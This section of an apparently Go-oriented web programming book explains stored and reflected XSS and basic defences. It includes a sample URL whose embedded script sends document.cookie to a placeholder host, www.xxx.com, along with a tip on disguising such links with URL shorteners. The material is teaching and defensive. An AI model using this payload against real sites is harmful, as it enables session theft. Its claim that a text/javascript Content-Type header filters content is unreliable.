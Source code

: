 # 9.3 XSS attacks

With the development of Internet technology, web applications are often packed with dynamic content to improve user experience. Dynamic content is content that reacts and changes according to user requests and actions. Dynamic sites are often susceptible to cross-site scripting attacks \(often referred to by security experts in its abbreviated form, XSS\), something which static websites are completely unaffected by.

## What is XSS?

As mentioned, the term XSS is an acronym for Cross-Site Scripting, which is a type of attack common on the web. In order not to confuse it with another common web acronym, CSS \(Cascading Style Sheets\), we use an `X` instead of a `C` for the cross in cross-site scripting. XSS is a common web security vulnerability which allows attackers to inject malicious code into webpages. Unlike most types of attacks which generally involve only an attacker and a victim, XSS involves three parties: an attacker, a client and a web application. The goal of an XSS attack is to steal cookies stored on clients by web applications for the purpose of reading sensitive client information. Once an attacker gets ahold of this information, they can impersonate users and interact with websites without their knowledge or approval.

XSS attacks can usually be divided into two categories: one is a stored XSS attack. This form of attack arises when users are allowed to input data onto a public page, which after being saved by the server, will be returned \(unescaped\) to other users that happen to be browsing it. Some examples of the types of pages that are often affected include comments, reviews, blog posts and message boards. The process often goes like this: an attacker enters some html followed by a hidden `<script>` tag containing some malicious code, then hits save. The web application saves this to the database. When another user requests this page, the application queries this tainted data from the database and serves the page to the user. The attacker's script then executes arbitrary code on the client's computer.

The other type is a reflected XSS attack. The main idea is to embed a malicious script directly into the query parameters of a URL address. A server that immediately parses this data into a page of results and returns it \(to the client who made the request\) unsanitized, can unwittingly cause the client's computer to execute this code. An attacker can send a user a legitimate looking link to a trusted website with the encoded payload; clicking on this link can cause the user's browser to execute the malicious script.

XSS present the main means and ends as follows:

* Theft of cookies, access to sensitive information.
* The use of embedded Flash, through crossdomain permissions, can also be used by an attacker to obtain higher user privileges. This also applies for other similar attack vectors such as Java and VBScript. 
* The use of iframes, frames, XMLHttpRequests, etc., can allow an attacker to assume the identity of a user to perform administrative actions such as micro-blogging, adding friends, sending private messages, and other routine operations. A while ago, the Sina microblogging platform suffered from this type of XSS vulnerability.
* When many users visit a page affected by an XSS attack, the effect on some smaller sites can be comparable to that of a DDoS attack.

## XSS principles

Web applications that return requested data to users without first inspecting and filtering it can allow malicious users to inject scripts \(typically embedded inside HTML within `<script>` tags\) onto other users' browsers. When this malicious code is rendered on a user's browser without first having been escaped from, the user's browser will interpret this code: this is the definition of an XSS attack, and this type of mistake is the leading cause of XSS vulnerabilities.

Let's go through the process of a reflective XSS attack. Let's say there's a website that outputs a user's name according to the URL query parameters; access the following URL `http://127.0.0.1/?name=astaxie` will cause the server to output the following:

```text
hello astaxie
```

Let's say we pass the following parameter instead, accessing the same url: `http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>`. If this causes the browser to produce an alert pop-up box, we can confirm that the site is vulnerable to XSS attacks. So how do malicious users steal cookies using the same type of attack?

Just like before, we have a URL:

`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`

By clicking on this URL, you'd be sending the current cookie to the specified site: `www.xxx.com`. You might be wondering, why would anybody click on such a strange looking URL in the first place? While it's true that this kind of URL will make most people skeptical, if an attacker were to use one of the many popular URL shortening services to obscure it, would you still be able to see it? Most attackers would obfuscate the URL in one way or another, and you'd only know the legitimacy of the link after clicking on it. However by this point, cookie data will have already been sent to the 3rd party website, compromising your sensitive information. You can use tools like Websleuth to audit the security of your web applications for these types of vulnerabilities.

For a more detailed analysis on an XSS attack, have a look at the article: "\[ Sina microblogging XSS event analysis \] \([http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)\)"

## How to prevent XSS

The answer is simple: never trust user input, and always filter out all special characters in any input data you may receive. This will eliminate the majority of XSS attacks.

Use the following techniques to defend against XSS attacks:

* Filter special characters

One way to avoid XSS is to filter user-supplied content. The Go language provides some HTML filtering functions in its `text/template` packge such as `HTMLEscapeString` and `JSEscapeString`, to name a few.

* Specify the content type in your HTTP headers 

`w.Header().Set("Content-Type","text/javascript")`

This allows client browsers to parse the response as javascript code \(applying the neccessary filters\) instead of rendering the content in an unspecified and potentially dangerous manner.

## Summary

Introducing XSS vulnerabilities is a very real hazard when developing web applications. It is important to remember to filter all data, especially before outputting it to clients; this is now a well-established means of preventing XSS.

## Links

* [Directory](preface.md)
* Previous section: [Filter inputs](09.2.md)
* Next section: [SQL injection](09.4.md)

